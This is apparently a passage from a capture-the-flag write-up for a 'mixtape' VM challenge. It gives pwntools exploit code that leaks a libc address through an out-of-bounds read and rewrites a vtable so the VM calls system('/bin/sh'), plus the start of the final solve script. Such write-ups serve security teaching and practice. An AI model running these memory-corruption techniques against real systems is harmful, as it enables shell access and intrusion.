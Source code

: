```py
bytecode += VM_SET_R_16(0x11, 0x4000)
bytecode += VM_SET_R_16(0x12, 0x6F)
bytecode += VM_SETB_MEM_R(0x12, 0x11, 0x00)
bytecode += VM_SET_R_16(0x12, 0x6E)
bytecode += VM_SETB_MEM_R(0x12, 0x11, 0x01)
# shuffle vtable where vm->vtable[0] = vtable[0x6f] which contains
# "/bin/sh" string and vm->vtable[1] = vtable[0x6e] which contains
# system function address
bytecode += VM_SHUFFLE_VTABLES(0x2, 0x11, 0x00)

# call system
bytecode += VM_MOV_R_MEM(0, 0, 0)
bytecode += VM_EXIT()

# bytecode to leak libc
bytecode = bytecode.ljust(0x400, b"\x00")
# sets each registers value to its own index value
for i in range(1, 256):
    bytecode += VM_SET_R_16(i, i)
# oob read @ bytecode[0x8010] == __libc_start_main_ret
# set r10 = 0x8010
bytecode += VM_SET_R_16(0x10, 0x8010)
# __libc_start_main_ret bytes goes into r0, r1, r2, r3, r4, r5, r6
# __libc_start_main_ret is 0x24083, so r0 changes to 0x83 and after shuffle
# the next instruction to be executed is at 0x83 + 0x4 = 0x87
bytecode += VM_SHUFFLE_REGS(6, 0x10, 0)
```

## Final Solve Script

```py
#!/usr/bin/env python3

# type: ignore
# flake8: noqa

import tempfile
from base64 import b64encode

from pwn import *

elf = context.binary = ELF("./mixtape", checksec=False)
libc = elf.libc
context.terminal = ["tmux", "neww"]


def VM_NEXT_INSN(op1=0, op2=0, op3=0):
    return p8(0) + p8(op1) + p8(op2) + p8(op3)


def VM_MOV_R_MEM(r_dest, r_base, offset):
    """
    mov r_op1, mem[r_op2+op3]
    """
    return p8(1) + p8(r_dest) + p8(r_base) + p8(offset)


def VM_MOV_MEM_R(r_src, r_base, offset):
    """
    mov r_op1, mem[r_op2+op3]
    """
    return p8(2) + p8(r_src) + p8(r_base) + p8(offset)

```